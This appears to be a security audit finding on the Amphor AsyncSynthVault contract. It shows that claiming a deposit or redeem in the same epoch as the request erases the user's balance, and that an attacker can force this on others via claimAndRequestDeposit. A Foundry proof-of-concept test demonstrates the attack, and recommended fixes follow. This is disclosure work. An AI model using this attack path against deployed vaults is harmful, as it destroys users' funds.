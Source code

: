 Attractive Tin Carp

high

# Claiming a deposit (or redeem) on the same epoch it has been requested leads to stuck funds

## Summary
Claiming deposits or redeems on the same epoch they are requested will lose all the requested assets/shares.

## Vulnerability Detail
The functions [claimDeposit()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L508) and [claimRedeem()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L521) are supposed to be called by an user to claim (or redeem) the shares (or assets) requested on a previous epoch.

Both functions can be called by a user on the same epoch in which the request of deposit (or redeem) was made. If this happens the variable `depositRequestBalance` (or `redeemRequestBalance`) [gets zeroed out](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L753) but no shares (or assets) are transferred to the `receiver` because [`previewClaimDeposit`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L567) returns `0` when queried about the current epoch. Because of this users will lose either assets or shares, which will be stuck in the `pendingSilo` first and `claimableSilo` later. 

Furthermore, the function [`claimAndRequestDeposit()`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L204) allows anybody to claim a deposit on behalf of anybody else. An attacker can exploit this and call the function as soon as any user calls [requestDeposit()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L439) to zero out the shares they will receive when calling [claimDeposit()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L508), effectively losing them funds.


### POC
The POC shows Alice requesting a deposit after which an attacker calls [`claimAndRequestDeposit()`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L204) preventing Alice from being able to claim her shares.

Add import in `TestClaimRedeem.t.sol`:
```solidity
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
```
and copy-paste:
```solidity
function test_requestDepositOnSameEpochLosesFunds() external {
    address alice = makeAddr("alice");
    address attacker = makeAddr("attacker");

    address vaultOwner = vaultTested.owner();
    IERC20 asset = IERC20(vaultTested.asset());
    deal(address(asset), alice, 15e18);

    vm.prank(alice);
    asset.approve(address(vaultTested), type(uint256).max);

    //-> Alice deposits and gets 10e18 shares
    vm.prank(alice);
    vaultTested.deposit(10e18, alice);
    assertEq(vaultTested.balanceOf(alice), 10e18);

    //-> Vault gets closed
    vm.prank(vaultOwner);
    vaultTested.close();

    //-> Alice requests a deposit of 5e18
    vm.startPrank(alice);
    vaultTested.requestDeposit(5e18, alice, alice, "");
    vm.stopPrank();

    //-> Alice assets are transferred in the pending silo
    assertEq(asset.balanceOf(address(vaultTested.pendingSilo())), 5e18);

    //-> Attacker claims deposit on behalf of Alice and requests a new deposit of `0` to her
    vm.prank(attacker);
    vaultTested.claimAndRequestDeposit(0, alice, "");

    assertEq(vaultTested.balanceOf(alice), 10e18); //❌ Alice' shares did not increase

    //-> Vault is open and new epoch triggered
    vm.startPrank(vaultOwner);
    asset.approve(address(vaultTested), type(uint256).max);
    vaultTested.open(10e18);
    vm.stopPrank();

    //-> Alice claims deposit but still claims no shares
    vm.prank(alice);
    vaultTested.claimDeposit(alice);
    assertEq(vaultTested.balanceOf(alice), 10e18); //❌ Alice' shares did not increase
}
```

## Impact
Users will lose all of the assets they requested if either [_claimDeposit()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L751) or [_claimRedeem()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L767) is called on the same epoch the assets were requested on. This can also be enforced by an attacker via [`claimAndRequestDeposit()`](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L204).

## Code Snippet

## Tool used

Manual Review

## Recommendation
- In [_claimDeposit()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L751) revert if `lastDepositRequestId[owner]` is equal to the current epoch.
- In [_claimRedeem()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L767) revert if `lastRedeemRequestId[owner]` is equal to the current epoch.
